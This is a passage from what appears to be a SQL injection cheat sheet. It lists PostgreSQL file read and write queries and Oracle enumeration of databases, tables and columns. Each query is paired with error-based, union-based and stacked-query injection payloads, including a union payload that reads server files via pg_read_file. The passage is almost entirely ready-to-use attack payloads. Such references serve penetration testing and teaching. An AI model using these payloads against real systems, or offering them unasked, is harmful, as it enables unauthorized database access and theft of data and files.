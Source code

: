 ### Read Files:
- Normal
    - `SELECT pg_read_file('/path/to/file', 0, 1000000);`
- SQLi
    - `' UNION SELECT pg_read_file('/path/to/file', 0, 1000000), NULL --`

### Write Files:
- Normal
    - `COPY table_name TO '/path/to/file' DELIMITER ',' CSV HEADER;`

## ORACLE

### List databases:
- Normal
    - `SELECT name FROM v$database;`
- Error based
    - `' AND (SELECT COUNT(*) FROM v$database) --`
- Union Based
    - `' UNION SELECT name, NULL FROM v$database --`
- Stacked Queries:
    - `; SELECT name FROM v$database; --`

### List Tables:
- Normal
    - `SELECT table_name FROM all_tables;`
- Error based
    - `' AND (SELECT COUNT(*) FROM all_tables) --`
- Union Based
    - `' UNION SELECT table_name, NULL FROM all_tables --`
- Stacked Queries:
    - `; SELECT table_name FROM all_tables; --`

### List columns:
- Normal
    - `SELECT column_name FROM all_tab_columns WHERE table_name = 'table_name';`
- Error based
    - `' AND (SELECT COUNT(*) FROM all_tab_columns WHERE table_name = 'table_name') --`
- Union Based
    - `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'table_name' --`
- Stacked Queries:
    - `; SELECT column_name FROM all_tab_columns WHERE table_name = 'table_name'; --`